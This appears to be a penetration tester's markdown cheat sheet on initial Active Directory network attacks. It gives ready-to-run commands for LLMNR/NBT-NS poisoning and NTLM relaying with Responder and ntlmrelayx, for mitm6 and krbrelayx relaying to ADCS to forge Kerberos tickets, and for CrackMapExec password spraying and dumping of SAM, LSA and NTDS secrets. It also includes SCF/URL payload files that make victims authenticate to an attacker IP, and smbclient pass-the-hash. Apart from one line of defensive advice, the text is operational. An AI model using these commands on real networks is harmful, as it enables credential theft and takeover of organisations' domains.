 ## Initial Network Attacks

Are you sat on a network without a user account? Want to start pwning some DA's? You'll maybe want to start by using one of these techniques.

Maybe you have some creds and want to check your access? I got you too, dude!

### LLMNR/NBTNS Poisoning

LLMNR and NBTNS is a protocol which is used as a fallback when DNS fails in the internal network. In the event of an environment with it enabled, users attempting to access a non-existant network share or file with a UNC path will have their initial DNS query fail. This is expected. LLMNR then broadcasts around the network and asks "Who has `<incorrectly spelt share>`?".

As an attacker on the network, we can use a tool such a Responder on Linux or Inveigh on Windows to respond to these requests. The response will ask the target to confirm who they are by sending their NTLMv2 hash. This can then either be relayed to machines that the user is a local admin on to get code execution. Provided SMB signing is disabled! NBTNS is the fallback after LLMNR fails and provides a similar service.

```bash
sudo responder -I eth0 -rdwv

# To relay
impacket-ntlmrelayx  --no-http-server -smb2support -t 10.10.10.10 -c 'whoami'
```

The best defence is simply to disable these protocols and ensure SMB signing is activated on all machines.

### Mitm6

Windows has a funny habit of preferring ipv6 on internal networks unless explicitly asked not to use it. This leads to potential authentication data being sent to malicious broadcasters pretending assign ipv6 addresses to requesting MAC addresses. This can be abused using the fantastic mitm6 from Fox-IT.

 https://github.com/dirkjanm/mitm6 

```bash
sudo mitm6 -d matrix.local
```

We then setup a relay to point at the domain controller.

```bash
python3 ntlmrelayx.py -6 -t ldaps://10.10.10.10 -wh fakewpad.matrix.local -l lootbox
```

When a machine in the vulnerable network gets restarted, ipv6 will broadcast and look for the DNS which will getr intercepted by MITM6. The lootbox will be full of incredible information when it captures information. If a user logs in, it should be possible to capture their login credentials. By default, ntlmrelay will create a user on the target.

If the target has an ADCS in their domain, with web enrollment enabled, we can use krbrelayx to relay kerberos. This is off the back of the incredible research by James Forshaw.

```bash
sudo krbrelayx.py --target http://adscert.matrix.local/certsrv/ -ip <your ip to bind dns> --victim dc04.matrix.local --adcs --template Machine
```

Then we'll run mitm6 specify the relay target as the ADCS.

```bash
sudo mitm6 --domain matrix.local --host-allowlist dc04.matrix.local --relay adcs.matrix.local -v
```

When the victim connects to our malicious mitm6 server, they'll attempt to update their DNS records. If we deny that, they will send their authentication via TCP to the krbrelayx DNS server. On the krbrelayx terminal, a certificate shoulld be captured. We can then use gettgtpkinit to convert it to a valid kerberos ccache ticket. This can also be done with Rubeus if you're a Windows lover.

```bash
python gettgtpkinit.py -pfx-base64 MIIRFQIBA..cut...lODSghScECP5hGFE3PXoz matrix.local/dc04$ dc04.ccache
```

With the kerberos ccache file, we'll request an s4u ticket for the administrative user and assign it to our local KRB5CCNAME environment variable and attempt to view the C$ drive of the target - Though you can psexec, wmiexec.. whatever you want really.


```bash
python gets4uticket.py kerberos+ccache://matrix.local\\dc04\$:dc04.ccache@dc04.matrix.local cifs/dc04.matrix.local@MATRIX.LOCAL administrator@matrix.local administrator.ccache
export KRB5CCNAME=administrator.ccache
impacket-smbclient -k matrix.local/adminstrator@dc04.matrix.local -no-pass
```

### SCF Attacks

The premise of the attack is simple, set up responder and drop a .scf or .url (maybe .lnk if my memory serves me correctly) into a writeable share that users are likely to visit. Once a user goes into the folder, their machine will attempt to run the script and connect back to your IP address. Either capture to crack, or you can relay as per the previous attacks.

 https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#scf-and-url-file-attack-against-writeable-share 

@files.scf
```bash
[Shell]
Command=2
IconFile=\\10.10.10.10\Share\test.ico
[Taskbar]
Command=ToggleDesktop
```

```bash
responder -wrf --lm -v -I eth0
```

Also works with .url files -> @files.url

```bash
[InternetShortcut]
URL=google.com
WorkingDirectory=whatever
IconFile=\\10.10.10.10\%USERNAME%.icon
IconIndex=1
```

```bash
responder -I eth0 -v
```


### Crackmapexec

So many features now I don't even have notes on them all! Many protocols supported, examples below just show smb/winrm.

 https://github.com/Porchetta-Industries/CrackMapExec 

```bash
# Try a single user logon 
crackmapexec smb 10.10.10.10 -u 'Neo' -p 'Password!'

# Try to use a target list and a single user logon and tries to run the whoami command
crackmapexec smb targets.txt -u 'Neo' -p 'Password!' -x whoami

# Uses a target list, username list, and password list against local users
crackmapexec smb targets.txt -u usernames.txt -p passwords.txt --local-auth

# Uses a target list, username list, and a hash
crackmapexec smb targets.txt -u usernames.txt -H <NTLM>

# Uses a username list, hash file list, and continues after valid matches are found. No brute force means it tries user1 -> password1, user2 -> password2 
crackmapexec winrm 10.10.10.10 -u usernames.txt -H hashes.txt --no-bruteforce --continue-on-success 

# Uses a kerberos ccache file instead of credentials to authenticate via kerberos
export KRB5CCNAME=neo.ccache 
crackmapexec smb 10.10.10.10 --kerberos

# Check if DC is vulnerable to ZeroLogon, PetitPotam or noPac
crackmapexec smb 10.10.10.10 -u '' -p '' -M zerologon/petitpotam/nopac

# Dump respective target creds/shares
crackmapexec smb 10.10.10.10 -u Neo -d matrix.local -H <hash> --sam / --lsa / --ntds / --shares
```

For an extensive, and I mean EXTENSIVE(!) list of features, check out the wiki. Awesome!

 https://wiki.porchetta.industries/ 


### Smbclient

```bash
# Using a null session to list shares
smbclient -L \\\\10.10.10.10\\

# Using a username/password to list shares
smbclient -L \\\\10.10.10.10\\ -U MATRIX/neo -P "passw0rd"

# Using a hash to connect to the ADMIN$ share
smbclient \\\\10.10.10.10\\ADMINS$ -U MATRIX/neo --pw-nt-hash 32f263cef0f67d74f57e13851526f1e2
```